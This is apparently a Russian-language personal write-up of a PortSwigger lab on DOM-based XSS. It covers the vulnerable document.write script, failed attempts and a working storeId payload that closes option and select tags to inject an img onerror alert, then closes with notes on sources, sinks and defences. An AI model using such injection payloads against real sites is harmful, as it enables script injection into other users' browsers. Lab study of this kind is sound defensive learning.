




лаба https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

задание:
функция проверкизапасов товаров - в ней есть xss c document-write и данные берутся из location-search

нужно выйти за пределы элемента select и вызвать аллерт

-----

вот запрос 
```http
POST /product/stock HTTP/2
Host: 0a3600e0042580298191e303000800e7.web-security-academy.net
Cookie: session=6a9rdtZME1W3o0HaFnJo40nmsi2hz5Gw
Content-Length: 25
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a3600e0042580298191e303000800e7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3600e0042580298191e303000800e7.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=2&storeId=Paris


ответ

HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

768

```

и как бы ничего необычного нет

но есть сылка https://0a3600e0042580298191e303000800e7.web-security-academy.net/product?productId=2

и тут интереснее, номер поста находится прямо в ссылке

но если сделать GET /product?productId=7777 HTTP/2 
то ответ 400 "Not Found"

-------


вот уже получается ответ 200 
GET /product?productId=1&23 HTTP/2
но 23 не попало в html никуда

---


но само число которое я вбиваю отражается в ответе



запрос GET /product?productId=15 HTTP/2
ответ 
```js

<form id="stockCheckForm" action="/product/stock" method="POST">
  <input required type="hidden" name="productId" value="15">
      <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
         document.write('<select name="storeId">');
         
              if(store) {
              
              
                document.write('<option selected>'+store+'</option>');
                
                
               }
               
               for(var i=0;i<stores.length;i++) {
                 if(stores[i] === store) {
                        continue;
                          }
                  document.write('<option>'+stores[i]+'</option>');
                }
                                document.write('</select>');
        </script>
```

этот скрипт берет номер поста из url 
создается переменная store в которую записывается значение номера поста из URL
и потом  document.write('< option selected>'+store+'< /option>'); ищет этот store

нужно сделать такой пейлоад который вставвитсья место store
вот в этой строке  document.write('< option selected>'+store+'< /option>');
выйдет из нее и сделает свое дело

store между двумя тегами 
поэтому нужно выйти из них

можно просто закрыть тег < /option>
пейлоад < img src=321 onerror=alert("xxe-welcome")>
< /option>< img src=321 onerror=alert("xxe-welcome")>

--------

пейлоад в url
< /option>< img src=321 onerror=alert("xxe-welcome")>

ответ 400 "Invalid product ID"

-------

видимо нужно закрывать не только option но и select теги

подставляю в конец ссылки:
< /option>< /select>< img src=x onerror=alert(1)>
`</option></select>`

ответ 400 "Invalid product ID"

---
хз ваще как это делать.. как слепой котенок! задрала эта лаба меня уже!!!

----

это вынос мозга!!!!!!
я смотрю решение!!!!!

-----
вот ссылка с моим пейлоадом 
https://0a3600e0042580298191e303000800e7.web-security-academy.net/product?productId=%3C/option%3E%3C/select%3E%3Cimg%20src=x%20onerror=alert(1)%3E


все че нужно сделать это:

из этой строки кода `  document.write('<select name="storeId">'); `
взять  storeId  который есть и в js коде и в пост запросе POST /product/stock (выше показывал его)
и пихнуть его к основному видимому URL 

как я должен был догадаться до этого?

https://0a3600e0042580298191e303000800e7.web-security-academy.net/product?productId=1&storeId=%3C/option%3E%3C/select%3E%3Cimg%20src=x%20onerror=alert(1)%3E

вот тоже самое без кодировки url
`GET /product?productId=1&storeId=</option></select> `

⭐️ все, лаба решена!! ⭐️

--------

типо нужно было дописать вручную этот параметр &storeId=пейлоад к запросу который запрашивает число товаров  (то есть + лишний параметр)
но сервер не смотрит на этот левый параметр и делает стр как обычно
но в самом браузере JS чистает весь location.search и видит в url storeId и подставляет его в выпадающий список

----

то есть можно сделать так:
вот ориг ссылка 
https://0a1900050404273e807b032a006f0077.web-security-academy.net/product?productId=1

вот отравленная 
https://0a1900050404273e807b032a006f0077.web-security-academy.net/product?productId=1&storeId=xss22

и в самой форме отразился мой  xxx22
и от сервера ответ чист там этого нет!
но это есть в js коде страницы  ==selected="">xss22<==



```html

<form id="stockCheckForm" action="/product/stock" method="POST">
                            <input required="" type="hidden" name="productId" value="1">
                            <script>
                                var stores = ["London","Paris","Milan"];
                                var store = (new URLSearchParams(window.location.search)).get('storeId');
                                document.write('<select name="storeId">');
                                if(store) {
                                    document.write('<option selected>'+store+'</option>');
                                }
                                for(var i=0;i<stores.length;i++) {
                                    if(stores[i] === store) {
                                        continue;
                                    }
                                    document.write('<option>'+stores[i]+'</option>');
                                }
                                document.write('</select>');
                            </script><select name="storeId"><option 
                            
                            
                            
                            
                            
                            selected="">xss22</option><option>London</option><option>Paris</option><option>Milan</option></select>
                            
                            
                            
                            
                            
                            
                            
                            <button type="submit" class="button">Check stock</button>
                        </form>
```





# это можно было бы легко найти если бы просто изначально найти в коде и в параметрах этот параметр и потом подставить его в url так как js читал url , это видно в том скрипте, и посмотреть куда подставиться данные параметр

--------

#### вывод
главное отличие DOM XSS от обычного - сервер может быть вообще не при делах

сервер присылает безобидный HTML и JS код, а хуйня случается уже в браузере когда этот JS выполняется

параметры в URL могут быть левыми - их нет в изначальных ссылках, но JS готов их принять и обработать

нужно проверять и смотреть откуда берутся данные (source) и куда вставляются (sink)

источники (source): location.search, location.hash, document.referrer, window.name , document.cookie 

приемники (sink): document.write, innerHTML, outerHTML, eval, setTimeout, setInterval, location.href

самый опасный sink это document.write потому что он пишет прямо в DOM строку которая потом парсится

даже если строка собирается из кусков внутри JS это всё равно опасно потому что туда можно вставить закрывающие теги и сломать конструкцию

нужно смотреть не только на готовый HTML который прислал сервер но и на то что добавляет JS после загрузки страницы

## как защититься от DOM XSS

никогда не юзать document.write с данными от юзера, это рассадник XSS 

всегда использовать textContent вместо innerHTML, чтобы ввод не выполнился как код 

создавать элементы через createElement и добавлять через appendChild, так безопаснее 

если прям надо вставить html, пропускать всё через DOMPurify или другую библиотеку санитизации 

ставить Content Security Policy (CSP) с директивой require-trusted-types-for чтобы заблокировать опасные инлайн-скрипты 

валидировать всё что приходит от юзера, пропускать только по белому списку

кодировать спецсимволы вроде < > и кавычек перед выводом

избегать опасных sinks типа eval, setTimeout со строками, location.href с пользовательским вводом

использовать современные фреймворки (React, Vue) которые по умолчанию экранируют вывод


-------

ивайдер нашел эту уязвимость когда я уже прописал &storeId=777
ну и показал мне место уязвимости
```js
if(store) {
  document.write('<option selected>'+store+'</option>');
}

```




